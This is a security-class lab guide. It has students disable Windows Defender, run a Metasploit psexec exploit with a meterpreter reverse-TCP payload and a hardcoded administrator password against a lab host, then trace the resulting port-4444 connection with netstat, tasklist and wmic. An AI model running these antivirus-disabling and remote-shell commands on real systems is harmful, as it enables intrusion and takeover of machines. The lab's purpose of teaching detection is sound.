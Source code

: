 

# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a Terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a Kali instance by clicking the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

<pre>Set-MpPreference -DisableRealtimeMonitoring $true</pre>

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say </pre> A general error occurred that is not covered by a more specific error code.</pre> that is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

<pre>ifconfig</pre>>

![](attachments/windowscli_ifconfig.png)

Please note the IP address of **==your==** Ethernet adapter. 

Please note that my adapter is called **eth0** and my IP address is **172.26.19.133.**   

==**Your IP Address and adapter name may be different.**==

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

<pre>sudo su -</pre>

Next, we will start the **Metasploit** handler with the following command:

<pre>msfconsole -q</pre>

It will take a second to connect, be patient!
When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

<pre>use exploit/windows/smb/psexec</pre>

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

<pre>set PAYLOAD windows/meterpreter/reverse_tcp</pre>

We also need to set the RHOST IP by using the following command:

<pre>set RHOST 10.10.1.209</pre>

![](attachments/windowscli_sets.png)

Remember, your IP will be different!

Next, we need to set the SMB username and password. 

<pre>set SMBUSER Administrator</pre>

<pre>set SMBPASS T@GEq5%r2XJh</pre>

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

<pre>exploit</pre>

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Go ahead an open an instance of Windows PowerShell.

![](attachments/OpeningPowershell.png)

Run the following command:
<pre>netstat -naob</pre>

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

<pre>netstat -f</pre>

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

Now we see our last connection with the port 4444.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

Now, let's dive in!

First we will start with tasklist  

<pre>tasklist /m /fi "pid eq [PID]"</pre>

==**YOUR PID WILL BE DIFFERENT!**==

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

<pre>wmic process where processid=[PID] get commandline</pre>

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

<pre>wmic process get name,parentprocessid,processid | select-string [PID]</pre>

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process
>We found its parent process ID.  
>We did a search on that process ID.  
>As you can see above, it was launched by the cmd.exe process.  
>Note that the search we just did may turn up some other things launched by the command line as well.

***
[Back to Navigation Menu](/IntroClassFiles/navigation.md)








 

